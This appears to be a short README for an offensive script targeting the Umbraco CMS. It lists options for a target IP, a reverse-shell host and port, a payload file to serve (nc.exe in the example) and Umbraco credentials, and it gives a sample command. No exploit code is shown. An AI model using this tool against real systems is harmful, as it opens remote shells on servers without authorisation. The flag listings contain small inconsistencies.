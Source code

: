 # Easy-embraco-SMB

## Command line arguments
Easy-embraco-SMB.py [-h] --target TARGET --host HOST [--port PORT] [--load LOAD] --user USER --passw PASSW

optional arguments:
  \-h, \-\-help            show this help message and exit
  \--target TARGET, \-t TARGET Target IP address
  \--host HOST, \-x HOST  IP for reverse shell
  \--port PORT, \-p PORT  Port for reverse shell
  \--load LOAD, \-l LOAD  Path to file or script to provide to the public
  \--user USER, \-P USER  User name for Umbraco
  \--passw PASSW, \-U PASSW  Password for Umbraco


## Example usage
sudo python3 Easy-embraco-SMB.py --target 0.0.0.0 --host 0.0.0.0 --port 4444 --user admin@admin.com --pass admin --load ./nc.exe

